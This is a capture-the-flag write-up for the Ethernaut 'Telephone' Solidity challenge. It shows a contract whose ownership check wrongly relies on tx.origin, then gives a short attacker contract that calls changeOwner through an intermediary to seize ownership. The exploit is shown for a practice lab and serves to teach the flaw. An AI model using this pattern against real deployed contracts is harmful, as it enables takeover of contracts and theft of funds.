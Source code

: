 # Telephone
```javascript
pragma solidity ^0.4.18;

contract Telephone {

  address public owner;

  function Telephone() public {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

This challenge point out the different between `tx.origin` & `msg.sender`.

From Solidity document:

* **tx.origin** (address payable): 
    sender of the transaction (full call chain)

* **msg.sender** (address payable): 
    sender of the message (current call)
    
Therefore, we get a very obvious plan that we deploy a contract which will call target contract instance's `changeOwner()` function.

Then we use ourself(EOA) to call the contract we deployed. 

Contract example like following:
```javascript
pragma solidity ^0.4.18;
 
contract Telephone {
  function changeOwner(address _owner) public;
}
contract Telhack {
 
    Telephone target = Telephone(/*Your Zepplin Main Contract Address*/);
 
    function hack(){
        target.changeOwner(msg.sender);
    }
}
```
![](https://i.imgur.com/0MpTuEj.png)

Deploy contract on [Remix IDE](https://remix.ethereum.org/).

Done.
